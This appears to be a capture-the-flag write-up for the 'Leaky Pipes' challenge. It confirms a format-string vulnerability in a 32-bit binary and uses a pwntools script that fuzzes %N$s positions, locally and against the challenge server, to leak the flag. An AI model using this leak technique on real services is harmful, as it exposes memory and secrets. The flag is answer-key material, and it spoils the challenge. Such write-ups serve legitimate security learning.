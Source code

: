 
>Welcome to Leaky Pipes, where a seemingly innocent program has sprung a serious leak! Your mission is to uncover the concealed flag hidden within the program. Will you be the one to patch the leak and reveal the hidden secret?

Author: @Inv1s1bl3
#solved #pwn #easy #format-string-leak

`nc 34.125.199.248 1337`


![[leaky_pipes]]

### tools
[[format string fuzzing]]

```
└─$ checksec --file=leaky_pipes   
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols        No    0 2leaky_pipes
```



```
─$ file leaky_pipes 
leaky_pipes: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=fd9444b0ce61d7376af159c8d345903f2d62ff51, for GNU/Linux 3.2.0, not stripped
```


Looks like a format string vulnerability:
```
└─$ ./leaky_pipes
Tell me your secret so I can reveal mine ;) >> %x
Here's your secret.. I ain't telling mine :p
ffffced0
```

Let's try a quick fuzz to see what we can get from the stack:
```

#!/usr/bin/env python3
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./leaky_pipes', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:    
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recv()        
        # Check for flag 
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

When run locally, the test flag leaks at position 20. Let's run this against the server and check:

```
# amend script to run against server
for i in range(30):
    try:    
        # Create process (level used to reduce noise)
        # p = process(level='error')
        p = remote("34.125.199.248", "1337", level='error')
# rest of script the same......
```

Success!

`24: b'F{F0rm4t_5tr1ngs_l3ak4g3_l0l}\n\n'

For some reason the beginning of the flag was cut off but adding OSCTF at the beginning worked.